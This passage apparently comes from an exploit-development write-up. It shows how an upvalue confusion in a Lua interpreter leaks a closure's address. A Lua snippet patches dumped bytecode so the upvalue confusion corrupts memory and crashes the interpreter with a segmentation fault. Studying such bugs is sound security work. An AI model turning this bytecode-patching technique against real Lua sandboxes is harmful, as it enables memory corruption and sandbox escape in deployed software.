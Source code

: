 ```lua

# Output

Returned outer closure:	LClosure: 0x109a98
Calling it...
nil
nil
Leaking outer closure: 	LClosure: 0x109a98 <--- THIS CONFIRMS THAT THE CONFUSED UPVALUE POINTS TO THE RIGHT THING
```

Two notable mentions here:

1. Again, in order to make things work with this interpreter I had to change
  the bytes in the patching. In this case, as the patching happens not in
  the opcodes but rather in the upvalues of the functions, I resorted
  to manually examining the bytecode dump to find a pattern that seemed
  the right one to patch -- in this case, what we are patching is the
  "upvals table" of the outer closure.

2. We are returning the outer closure to verify that the upvalue confusion
   is working. In fact, in the code, I'm printing the address of the outer closure
  (which is returned by the function), and printing the value of the
  patched target upvalue, and expecting them to match.
  
From the output of the interpreter, we confirm that we have
successfully confused upvalues.

## If it looks like a Closure

Ok, we can leak the outer closure by confusing upvalues.
But can we overwrite it? Let's check:

```lua

# Code

confuse = load(string.dump(function()
    local foo
    local bar
    local target
    return (function()
      (function()
        print(foo)
        print(bar)
        target = "AAAAAAAAA"
      end)()
      return 10000000
    end)(), 1337
end):gsub("(\x01\x00\x00\x01\x01\x00\x01)\x02", "%1\x03", 1))

confuse()

# Output

nil
nil
RuntimeError: Aborted(segmentation fault)

```
